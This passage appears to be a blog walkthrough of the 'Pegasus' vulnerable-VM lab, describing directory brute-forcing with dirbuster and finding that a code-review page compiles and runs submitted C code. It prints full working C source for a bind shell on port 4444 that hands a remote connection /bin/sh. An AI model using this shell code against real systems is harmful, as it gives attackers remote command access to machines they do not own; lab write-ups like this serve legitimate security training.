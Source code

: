 8088, when visited with a browser, shows a lovely picture of a Pegasus. A quick look at the source doesn't reveal anything, and there's nothing hidden in the image file.

[![pegasus_001](http://fourfourfourfour.co/wp-content/uploads/2014/12/pegasus_001.png)](http://fourfourfourfour.co/wp-content/uploads/2014/12/pegasus_001.png)

Time to brute force some directories/files. Experience has shown me that vulnerable VM creators are sneaky gits, so I opted to use a large dictionary here, just to see what it came up with. Because of this large dictionary, I had to use dirbuster instead of dirb, because dirb takes ages to parse large dictionary files. Prepare for some horrible UI screenshots...

[![pegasus_002](http://fourfourfourfour.co/wp-content/uploads/2014/12/pegasus_002.png)](http://fourfourfourfour.co/wp-content/uploads/2014/12/pegasus_002.png)

I'm only interested in the files that returned HTTP 200, as these actually exist, so submit.php and codereview.php

[![pegasus_003](http://fourfourfourfour.co/wp-content/uploads/2014/12/pegasus_003.png)](http://fourfourfourfour.co/wp-content/uploads/2014/12/pegasus_003.png)

codereview.php POSTS to submit.php, so for the moment I can ignore submit.php and focus on codereview.php

[![pegasus_004](http://fourfourfourfour.co/wp-content/uploads/2014/12/pegasus_004.png)](http://fourfourfourfour.co/wp-content/uploads/2014/12/pegasus_004.png)

![](http://i527.photobucket.com/albums/cc352/gabzylovescrack/HTTYD/Shudder.gif)

Mike is a code reviewer, and a trainee... therefore is pretty inexperienced. After a bit of time throwing various languages at the application, I found out that if you provide C sourcecode, it gets compiled and executed. Nice ! Lets bash some shellcode in there - specifically a bind shell and submit it.

``` c
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>

int main(void)
{
        int clientfd, sockfd;
        int dstport = 4444;
        int o = 1;
        struct sockaddr_in mysockaddr;

        sockfd = socket(AF_INET, SOCK_STREAM, 0);
        //setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &o, sizeof(o)); //a luxury we don't have space for

        mysockaddr.sin_family = AF_INET; //2
        mysockaddr.sin_port = htons(dstport);
        mysockaddr.sin_addr.s_addr = INADDR_ANY; //0

        bind(sockfd, (struct sockaddr *) &mysockaddr, sizeof(mysockaddr));

        listen(sockfd, 0);

        clientfd = accept(sockfd, NULL, NULL);

        dup2(clientfd, 0);
        dup2(clientfd, 1);
        dup2(clientfd, 2);

        execve("/bin/sh", NULL, NULL);
        return 0;
}
```